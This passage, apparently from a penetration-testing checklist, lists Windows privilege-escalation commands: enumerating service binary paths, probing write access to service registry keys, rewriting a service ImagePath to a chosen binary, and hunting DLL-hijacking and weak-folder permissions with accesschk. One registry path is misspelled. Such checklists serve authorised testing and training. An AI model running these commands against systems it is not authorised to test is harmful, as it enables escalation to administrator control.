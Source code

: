        # do it by using sc
       sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
       FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
       FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
      ```
  *   [ ] &#x20;Registry modify permissions

      ```
       reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

       #Try to write every service with its current content (to check if you have write permissions)
       for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

       get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

       # if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
       # it can be leveraged to change the binary path inside the registry
       reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
      ```
* [ ] &#x20;Installed applications
  *   [ ] &#x20;DLL Hijacking for installed applications

      ```
       dir /a "C:\Program Files"
       dir /a "C:\Program Files (x86)"
       reg query HKEY_LOCAL_MACHINE\SOFTWARE

       Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
       Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
      ```
  *   [ ] &#x20;Write permissions

      ```
       # using accesschk.exe
       accesschk.exe /accepteula
       
       # Find all weak folder permissions per drive.
       accesschk.exe -uwdqs Users c:\
       accesschk.exe -uwdqs "Authenticated Users" c:\
       accesschk.exe -uwdqs "Everyone" c:\
       